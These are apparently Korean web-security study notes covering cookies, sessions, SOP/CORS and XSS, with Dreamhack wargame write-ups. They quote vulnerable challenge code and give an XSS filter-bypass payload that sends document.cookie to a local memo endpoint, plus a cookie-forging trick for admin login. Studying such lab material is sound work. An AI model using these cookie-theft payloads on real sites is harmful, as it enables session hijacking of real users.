

[toc]

## 기초
브라우저 기본 동작
1. URL 분석
	- Scheme: 통신 프로토콜
	- Authority: Userinfo, Host, Port
	- Path
	- Query
	- Fragment
1. DNS(Domain Name Server) 요청
	- IP 수신
2. HTTP 요청
3. HTTP 응답 수신
4. 리소스 다운로드 및 웹 렌더링
	- 웹 렌더링은 브라우저별로 다른 엔진 사용(webkit, blink, gecko, etc..)


## Cookie & Session

HTTP 프로토콜 특징
- **Connectionless**: 하나의 요청에 하나의 응답을 한 후 연결을 종료함. 
- **Stateless**: 통신이 끝난 후 상태 정보를 저장하지 않음
-> 웹서버는 클라이언트를 기억할수 없음
### 쿠키 (Cookie)  

상태를 유지하기 위해 사용
- 서버에 요청을 보낼때마다 쿠키를 같이 전송함
- 쿠키를 확인해서 클라이언트 구분

쿠키 변조
- 쿠키를 통해 인증 정보를 식별하는 경우 쿠키를 변조해서 다른 사람인 것 처럼 사용해도 인증 통과 가능

### 세션 (Session)  

클라이언트가 인증 정보를 변조할 수 없게 하기위해 사용
- 인증 정보를 서버에 저장하고 해당 데이터에 접근할 수 있는 키(Session ID)를 만들어 클라이언트에 전달함. 브라우저는 해당 키를 쿠키에 저장하고 이후에 HTTP 요청을 보낼 때 사용함. 서버는 요청에 포함된 키에 해당하는 데이터를 가져와 인증 상태를 확인함.

-> 서버에 저장하는 값

### 세션 하이재킹 (Session Hijacking)

타 이용자의 쿠키를 훔쳐 인증 정보를 획득하는 공격
- 쿠키에 세션 정보(session id)가 저장되어 있고 서버는 이를 통해 이용자 식별하고 인증을 처리함.
- 다른 사람이 쿠키 변조를 통해 session id를 보내서 인증을 통과시키면 특정 사람인 것처럼 활동 가능

### Dreamhack - cookie
쿠키로 인증 상태를 관리하는 간단한 로그인 서비스입니다.  
admin 계정으로 로그인에 성공하면 플래그를 획득할 수 있습니다.

문제파일 - flask server

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, make_response, redirect, url_for

app = Flask(__name__)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

users = {
    'guest': 'guest',
    'admin': FLAG
}

@app.route('/')
def index():
    username = request.cookies.get('username', None)
    if username:
        return render_template('index.html', text=f'Hello {username}, {"flag is " + FLAG if username == "admin" else "you are not admin"}')
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    elif request.method == 'POST':
        username = request.form.get('username')
        password = request.form.get('password')
        try:
            pw = users[username]
        except:
            return '<script>alert("not found user");history.go(-1);</script>'
        if pw == password:
            resp = make_response(redirect(url_for('index')) )
            resp.set_cookie('username', username)
            return resp 
        return '<script>alert("wrong password");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)

```

- 함수 index 에서 쿠키의 username을 가져와서 있으면 text를 렌더링함
	- admin으로 로그인하면 flag 를 출력함
- 함수 login 에서 username, password로 로그인 처리함
	- pw를 users 배열에서 확인하고 입력한 비밀번호랑 맞으면 쿠키를 설정함

 ![login_page][./images/20230818171908.png]


- users에 guest/guest 가 있으니 이 계정으로 로그인해서 쿠키를 설정하고 값을 admin 으로 바꾸면 됨
- 쿠키에 username: admin으로 직접 설정해도 됨 

### SOP - Same Origin Policy

동일 출처 정책. 
클라이언트의 권한을 이용해 HTTP 요청을 보내고 HTTP 응답 정보를 획득 하는 코드를 실행할 수 있음. 이런 경우  가져온 데이터를 악의적인 페이지에서 읽을 수 없도록 하는 보안 메커니즘

Cross Origin: 현재 페이지와 다른 출처
- Origin과 URL을 비교했을 때 Scheme(프로토콜), Host, Port 가 다른경우  

### CORS - Cross Origin Resource Sharing

교차 출처 리소스 공유
- 동일 출처 정책을 완화해서 다른 출처의 데이터를 처리해야 하는 경우가 필요함

처리 방법 1. CORS 관련 HTTP 헤더 추가 전송 - OPTIONS (HTTP Method)

|**Header**|**설명**|
|---|---|
|Access-Control-Allow-Origin|헤더 값에 해당하는 Origin에서 들어오는 요청만 처리합니다.|
|Access-Control-Allow-Methods|헤더 값에 해당하는 메소드의 요청만 처리합니다.|
|Access-Control-Allow-Credentials|쿠키 사용 여부를 판단합니다. 예시의 경우 쿠키의 사용을 허용합니다.|
|Access-Control-Allow-Headers|헤더 값에 해당하는 헤더의 사용 가능 여부를 나타냅니다.|

- CORS preflight: 서버에 웹 리소스를 요청해도 되는지 요청
	- preflight에 대한 응답으로 Access-Control-Allow 내용을 보냄. 서버에선 해당 요청만 
- 브라우저는 수신측의 응답이 발신측의 요청과 상응하는지 확인하고, 그때야 비로소 POST 요청을 보내 수신측의 웹 리소스를 요청하는 HTTP 요청을 보냄

처리 방법 2. JSON with Padding (JSONP) 
- CORS가 생기기 전에 사용하던 방법으로 거의 사용하지 않는 추세
`<script>` 태그로 Cross Origin의 데이터를 불러옵니다. 하지만 `<script>` 태그 내에서는 데이터를 자바스크립트의 코드로 인식하기 때문에 **Callback 함수**를 활용해야 합니다. Cross Origin에 요청할 때 callback 파라미터에 어떤 함수로 받아오는 데이터를 핸들링할지 넘겨주면, 대상 서버는 전달된 Callback으로 데이터를 감싸 응답합니다.

## XSS - Cross site scripting

클라이언트 사이드 해킹: 이용자를 식별하기 위한 세션 및 쿠키 정보를 탈취하고 해당 계정으로 임의 기능 수행

XSS: 공격자가 웹 리소스에 악성 스크립트를 삽입하고 이용자의 웹 브라우저에서 실행시켜 세션정보를 탈취함.

|**종류**|**설명**|
|---|---|
|Stored XSS|XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS|
|Reflected XSS|XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS|
|DOM-based XSS|XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS<br>_* Fragment는 서버 요청/응답 에 포함되지 않습니다._|
|Universal XSS|클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS|


### Stored XSS

서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성스크립트를 조회할때 발생하는 XSS

ex)
게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식.

- body에 스크립트 태그 삽입


- 게시글 읽어올때 스크립트 태그 실행

### Reflected XSS

서버가 악성 스크립트가 담긴 요청을 출력할때 발생
- 이용자의 요청에 의해 발생하므로 공격을 위해서 악성스크립트가 포함된 링크에 접속하도록 유도함.
- click jacking 혹은 open redirect 등 다른 취약점과 연계해서 사용

ex) 쿼리를 사용해서 게시물을 조회하는 기능

- 쿼리에 스크립트 삽입


- 서버에서 리턴될때 스크립트 실행


- 다른 태그도 삽입 가능

### 해결방법
1. 악성 태그를 필터링하는 HTML Sanitization 사용
2. 엔티티 코드로 치환

### wargame
xss 취약점을 통해 flag 얻기

xss-1
xss-2와 비슷한 문제이므로 풀이 패스

xss-2:


소스코드
```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os
  
app = Flask(__name__)
app.secret_key = os.urandom(32)
  
try:
	FLAG = open("./flag.txt", "r").read()
except:
	FLAG = "[**FLAG**]"
  
 
def read_url(url, cookie={"name": "name", "value": "value"}):
	cookie.update({"domain": "127.0.0.1"})
	try:
		service = Service(executable_path="/chromedriver")
		options = webdriver.ChromeOptions()
		for _ in [
			"headless",
			"window-size=1920x1080",
			"disable-gpu",
			"no-sandbox",
			"disable-dev-shm-usage",
		]:
			options.add_argument(_)
		driver = webdriver.Chrome(service=service, options=options)
		driver.implicitly_wait(3)
		driver.set_page_load_timeout(3)
		driver.get("http://127.0.0.1:8000/")
		driver.add_cookie(cookie)
		driver.get(url)
		except Exception as e:
			driver.quit()
			# return str(e)
			return False
		driver.quit()
		return True
  
 
def check_xss(param, cookie={"name": "name", "value": "value"}):
	url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
	return read_url(url, cookie)
  
 
@app.route("/")
def index():
	return render_template("index.html")
  
 
@app.route("/vuln")
def vuln():
	return render_template("vuln.html")
  
 
@app.route("/flag", methods=["GET", "POST"])
def flag():
	if request.method == "GET":
		return render_template("flag.html")
	elif request.method == "POST":
		param = request.form.get("param")
		if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
			return '<script>alert("wrong??");history.go(-1);</script>'
	
	return '<script>alert("good");history.go(-1);</script>'

memo_text = ""
 
 
@app.route("/memo")
def memo():
	global memo_text
	text = request.args.get("memo", "")
	memo_text += text + "\n"
	return render_template("memo.html", memo=memo_text)
   
app.run(host="0.0.0.0", port=8000)

```

취약점 분석: 페이지 코드 확인
- flag 함수는 post 로 보내는 param 값을 그대로 가져가서 check_xss 에 보냄.
- check_xss 함수에선 vuln 페이지에 get 방식으로 param을 보내고 그 값을 반환함.
	- param을 필터링하는게 없어 xss에 취약함
	- vuln.html 소스를 보면 innerHTML을 사용하므로 script 자체를 parameter로 보내도 실행시킬수 없음 -> wargame xss-1 과 차이
- innerHTML에서 스크립트를 실행시키기 위한 우회 방법 탐색
	- img 태그에서 onload, onerror 등으로 스크립트를 실행시킬수 있음. 해당 스크립트에 xss 코드 삽입 
	- 탈취한 쿠키를 받기위해 memo 엔드포인트 사용
	- ``

xss-filtering
https://dreamhack.io/wargame/challenges/433
xss-2와 거의 같으나 vuln 함수에서 xss_filter를 사용함
```python
def xss_filter(text):
	_filter = ["script", "on", "javascript:"]
	for f in _filter:
		if f in text.lower():
			text = text.replace(f, "")
	return text

@app.route("/vuln")
def vuln():
	param = request.args.get("param", "")
	param = xss_filter(param)
	return param
```

필터링(replace)한 이후 값을 다음과 같이 나오게만 하면 됨
- `<script>location.href='http://127.0.0.1:8000/memo?memo='+document.cookie</script>`
- flag 입력값: `<scripscriptt>locatioonn.href='http://127.0.0.1:8000/memo?memo='+document.cookie</scripscriptt>`


## Cross Site Request Forgery

## SQL Injection

## Command Injection

## File Vulnerability

## SSRF - Server Side Request Forgery 

